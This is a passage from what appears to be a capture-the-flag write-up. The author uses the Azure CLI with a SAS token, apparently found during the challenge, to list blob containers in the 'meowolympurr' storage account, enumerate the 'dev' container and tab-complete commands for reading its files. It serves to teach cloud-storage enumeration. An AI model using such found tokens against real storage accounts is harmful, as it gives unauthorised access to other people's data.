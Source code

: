 ```bash
        "status": "unlocked"
      },
      "publicAccess": null
    },
    "version": null
  },
  {
    "deleted": null,
    "encryptionScope": {
      "defaultEncryptionScope": "$account-encryption-key",
      "preventEncryptionScopeOverride": false
    },
    "immutableStorageWithVersioningEnabled": false,
    "metadata": null,
    "name": "dev",
    "properties": {
      "etag": "\"0x8DAC91438FC71A6\"",
      "hasImmutabilityPolicy": false,
      "hasLegalHold": false,
      "lastModified": "2022-11-18T03:23:11+00:00",
      "lease": {
        "duration": null,
        "state": "available",
        "status": "unlocked"
      },
      "publicAccess": null
    },
    "version": null
  }
]
```

Looks like we found our containers. Finally, to list the items in the dev container,  

```bash
bash-5.1# az storage blob list --account-name meowolympurr --sas-token "sv=2017-07-29&ss=b&srt=sco&sp=rl&se=2022-12-12T00:00:00Z&st=2022-09-01T00:00:00Z&spr=https&sig=UE2%2FTMTAzDnyJEABpX4OYFBs1b1uAWjwEEAtjeQtwxg%3D" -c dev
[
  {
    "container": "dev",
    ...
    "name": "readme.md",
    ...
  }
]
```

Now that we found the file, how can we access it? Well, we can safely assume most of the command should stay the same, but instead of listing, we need to read. Instead of going to google again or reading docs, let's just let bash autocomplete. 

```
bash-5.1# az storage blob <spam tab here> --account-name meowolympurr --sas-token "sv=2017-07-29&ss=b&srt=sco&sp=rl&se=2022-12-12T00:00:00Z&st=2022-09-01T00:00:00Z&spr=https&sig=UE2%2FTMTAzDnyJEABpX4OYFBs1b1uAWjwEEAtjeQtwxg%3D" -c \$web
--help               exists               query                snapshot
-h                   generate-sas         restore              sync
copy                 immutability-policy  rewrite              undelete
delete               incremental-copy     service-properties   update
delete-batch         lease                set-legal-hold       upload
download             list                 set-tier             upload-batch
download-batch       metadata             show                 url
```
